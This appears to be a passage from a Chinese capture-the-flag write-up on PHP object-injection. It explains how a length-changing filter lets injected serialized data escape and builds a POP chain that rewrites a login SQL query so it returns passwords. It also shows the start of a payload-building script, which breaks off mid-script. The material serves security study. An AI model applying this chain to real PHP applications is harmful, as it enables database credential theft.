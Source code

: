 ```
public function __destruct(){
    return file_get_contents($this->nickname);//危
}
public function __toString()
{
    $this->nickname->update($this->age);
    return "0-0";
}
```

然后来总结一下出现的魔术方法

```
__construct()    当一个对象创建时被调用
__destruct()     当一个对象销毁时被调用
__toString()     当一个对象被当作一个字符串使用
__call           当调用的方法不存在时触发
```

最终目的是改变 dbCtrl 中的查询语句从而查出账号密码

我们可以看到在 getNewInfo 中存在 safe 方法的替换，改变了序列化数据的长度

UpdateHelper 类的 \__destruct() 首先用通过 echo 调用 __toString，通过将 nickname 实例化为 Info 调用 Info 中的 call

再将 CtrlCase 实例化为 dbCtrl，从而调用 dbCtrl 中的 login 方法

原本在 update() 中序列化的内容为

```
O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";N;}
```

然后通过 safe 的过滤把反序列化数据挤出去，为保证对象个数的一致，这里要写进 CtrlCase 对象

编写以下脚本进行序列化

```
<?php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    }
class User
{
    public $id;
    public $age="select password,id from user where username=?";
    public $nickname;
}
class UpdateHelper
{
   public $id;
   public $newinfo;
   public $sql;
}
class dbCtrl
{
   public $hostname="127.0.0.1";
   public $dbuser="root";
   public $dbpass="root";
   public $database="test";
   public $name='admin';
   public $password;
   public $mysqli;
   public $token='admin';
}
$d = new dbCtrl();
$i = new Info();
```